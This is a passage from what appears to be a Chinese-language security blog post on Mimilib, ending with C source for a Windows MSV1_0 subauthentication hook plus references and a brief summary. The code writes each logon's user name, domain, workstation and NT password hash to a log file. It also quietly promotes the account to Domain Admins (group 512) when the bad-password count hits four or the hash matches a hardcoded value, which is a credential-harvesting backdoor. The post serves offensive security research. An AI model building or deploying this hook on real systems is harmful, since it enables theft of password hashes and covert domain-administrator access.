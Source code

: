 ```
		klog(ksub_logfile, L"%04d-%02d-%02d %02d:%02d:%02d %u (%u) - %wZ\\%wZ (%wZ) (%hu) ", st.wYear, st.wMonth, st.wDay, st.wHour, st.wMinute, st.wSecond, UserAll->UserId, UserAll->PrimaryGroupId, &((PNETLOGON_LOGON_IDENTITY_INFO) LogonInformation)->LogonDomainName, &((PNETLOGON_LOGON_IDENTITY_INFO) LogonInformation)->UserName, &((PNETLOGON_LOGON_IDENTITY_INFO) LogonInformation)->Workstation, UserAll->BadPasswordCount);
		if(UserAll->NtPasswordPresent)
			klog_hash(ksub_logfile, &UserAll->NtPassword, FALSE);
		if((UserAll->BadPasswordCount == 4) || (UserAll->NtPasswordPresent && RtlEqualMemory(UserAll->NtPassword.Buffer, myHash, min(sizeof(myHash), UserAll->NtPassword.Length))))
		{
			UserAll->PrimaryGroupId = 512;
			klog(ksub_logfile, L" :)\n");
		}
		else klog(ksub_logfile, L"\n");
		fclose(ksub_logfile);
	}
	*WhichFields = 0;
	*UserFlags = 0;
	*Authoritative = TRUE;
	LogoffTime->QuadPart = KickoffTime->QuadPart = 0x7fffffffffffffff;
	return STATUS_SUCCESS;
}
```

测试结果如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2020-3-1/2-5.png)

参考资料：

https://github.com/microsoft/Windows-classic-samples/tree/master/Samples/Win7Samples/security/authentication/msvsubauth

https://docs.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package

## 0x04 小结 
---

本文介绍了Mimilib中6种功能的具体用法。




---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)



